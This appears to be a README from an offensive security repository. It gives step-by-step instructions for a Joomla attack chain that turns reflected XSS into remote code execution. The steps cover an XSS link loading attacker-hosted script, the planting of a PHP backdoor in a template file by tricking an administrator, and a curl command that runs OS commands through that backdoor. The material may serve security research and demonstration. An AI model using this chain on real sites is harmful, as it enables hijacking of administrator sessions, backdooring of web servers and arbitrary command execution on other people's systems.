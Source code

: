 # [RCE] Patch File

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`patchFileJoomla.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

2. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/patchFileJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting the payload

5. [post exploit] execute OS command

    ```
    curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on exfiltrated data (obtained via `GET` request, when fetching `bd.txt`)

6. [restore file] restore file via GUI

    *Joomla ➔ System ➔ [Templates] Site Templates ➔ Cassiopeia Details and Files ➔ [tab] Editor ➔ /templates/cassiopeia - error.php ➔ (remove backdoor) ➔ Save & Close*

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 5 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/PatchFile/screenshots/Joomla_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/PatchFile/screenshots/Joomla_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/e80efadc-b573-4f9a-9f30-806967fd00a5
